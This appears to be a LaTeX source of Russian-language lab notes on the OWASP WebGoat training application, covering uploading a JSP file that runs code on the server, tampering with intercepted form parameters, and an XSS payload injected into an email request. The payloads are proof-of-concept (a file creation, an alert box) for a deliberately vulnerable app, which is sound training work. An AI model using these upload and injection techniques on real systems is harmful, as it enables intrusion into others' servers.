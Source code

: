 \documentclass{article}
\begin{document}
Есть возможность попробовать различные строки и увидеть особенности кодировки строк различными алгоритмами.

\paragraph{Исполнение злонамеренного кода}
~

Если на сервере неправильно настроены директории для сканирования скриптов, можно загрузить собственный исполняемый файл, перейти на интересующую старицу и выполнить злонамеренный код.

Содержимое файла attack.jsp
\begin{verbatim}
<HTML>
<%
java.io.File file = new java.io.File("C:\\Users\\llama\\Desktop\\secure\\.extract\\webapps\\WebGoat\\mfe_target\\webgoat.txt");
file.createNewFile();
%>
</HTML>
\end{verbatim}

\paragraph{Подделка параметров}
~

\begin{enumerate}
\item Bypas HTML Field Restrictions 

Перехватываем сообщение. Меняем все поля. Добавляем disabledinput.

\item Exploit Hidden Fields

Перехватываем, меняем...

\item Exploit unchecked email

Отправляем сообщение типа:
\begin{verbatim}
<script>alert("Bad Stuff");</script>
\end{verbatim}

Для отправки сообщения friend перехватываем сообщение меняем параметр "to" чтобы получилось: 
\begin{verbatim}
gId=GMail+id&gPass=password&subject=Comment+for+WebGoat&to=webgoat.admin
%40owasp.org&msg=%3Cscript%3Ealert(%22Bad+Stuff%22)%3B%3C%2Fscript%3E&SUBMIT=Send!
\end{verbatim}

\item Bypass Client Side JavaScript Validation

Аналогично.
\end{enumerate}
\end{document}
